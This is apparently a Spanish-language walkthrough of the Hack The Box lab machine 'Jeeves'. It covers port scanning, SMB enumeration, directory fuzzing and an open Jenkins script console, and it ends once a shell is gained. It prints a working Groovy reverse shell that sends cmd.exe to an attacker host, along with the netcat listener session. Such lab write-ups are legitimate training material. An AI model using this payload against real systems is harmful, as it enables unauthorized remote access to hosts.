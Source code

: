 
#Machine Jeeves
##Media

##    Skillss
### Jenkins Exploitation (Groovy Script Console)
### RottenPotato (SeImpersonatePrivilege)
### PassTheHash (Psexec)
### Breaking KeePass
### Alternate Data Streams (ADS)

## Reconocimiento

### Se reliza nmap 

```
nmap -sS -n -Pn -p- -vvv --min-rate 5000 10.10.10.63 -oG allPorts
nmap -p80,135,445,50000 -sVC -Pn 10.10.10.63 -oN nmap
```

```
 │ File: nmap
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ # Nmap 7.94SVN scan initiated Thu Jun 27 23:11:11 2024 as: nmap -p80,135,445,50000 -sVC -Pn -oN nmap 10.10.10.63
   2   │ Nmap scan report for 10.10.10.63
   3   │ Host is up (0.18s latency).
   4   │
   5   │ PORT      STATE SERVICE      VERSION
   6   │ 80/tcp    open  http         Microsoft IIS httpd 10.0
   7   │ |_http-server-header: Microsoft-IIS/10.0
   8   │ |_http-title: Ask Jeeves
   9   │ | http-methods:
  10   │ |_  Potentially risky methods: TRACE
  11   │ 135/tcp   open  msrpc        Microsoft Windows RPC
  12   │ 445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
  13   │ 50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
  14   │ |_http-server-header: Jetty(9.4.z-SNAPSHOT)
  15   │ |_http-title: Error 404 Not Found
  16   │ Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows
  17   │
  18   │ Host script results:
  19   │ | smb2-time:
  20   │ |   date: 2024-06-28T08:11:23
  21   │ |_  start_date: 2024-06-28T07:49:29
  22   │ | smb-security-mode:
  23   │ |   account_used: guest
  24   │ |   authentication_level: user
  25   │ |   challenge_response: supported
  26   │ |_  message_signing: disabled (dangerous, but default)
  27   │ | smb2-security-mode:
  28   │ |   3:1:1:
  29   │ |_    Message signing enabled but not required
  30   │ |_clock-skew: mean: 5h00m00s, deviation: 0s, median: 5h00m00s
  31   │
  32   │ Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  33   │ # Nmap done at Thu Jun 27 23:12:00 2024 -- 1 IP address (1 host up) scanned in 48.93 seconds
```

### Se realizan pruebas con el puerto SMB que se encuentra abierto sin ser exitoso

```
└─# smbmap -H 10.10.10.63

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 0 SMB session(s)

┌──(root㉿kali)-[/home/…/Documents/htb/jeeves/nmap]
└─# crackmapexec smb 10.10.10.63
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)

┌──(root㉿kali)-[/home/…/Documents/htb/jeeves/nmap]
└─# smbclient -L 10.10.10.63 -N
session setup failed: NT_STATUS_ACCESS_DENIED

```
### Entonces podemos hacer un ataque de directorios con `wfuzz` lo hice al puerto 80 y al puerto 50000 que son http, al puerto 80 no encontro nada, lo hice con la lista seclist pero no encontro nada asi que lo hice con la lista medium de dirbuster.

```
└─# wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.63:50000/FUZZ

 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.63:50000/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                            
=====================================================================

000041607:   302        0 L      0 W        0 Ch        "askjeeves"                                                                                                                        
 /usr/lib/python3/dist-packages/wfuzz/wfuzz.py:80: UserWarning:Finishing pending requests...

```
### Despues de escaneo de directorios se encontro directorio de administracion de jeeves `http://10.10.10.63:50000/askjeeves/` este portal de administracion no tiene contraseña ingresar en administrar jenkins y despues en consola de script

### En este apartado se observa que podemos escribir un script en goorvy para lo cual en `https://www.revshells.com/` podemos hacer una rv en groovy y entrar a la maquina

### Reverse shell en groovi

```
String host="<IP>";int port=4444;String cmd="cmd";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
### prendemos un netcat con que escuche el puerto que colocamos en el rv

```
└─# rlwrap -cAr nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.63] 49676
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>whoami
whoami
jeeves\kohsuke

```


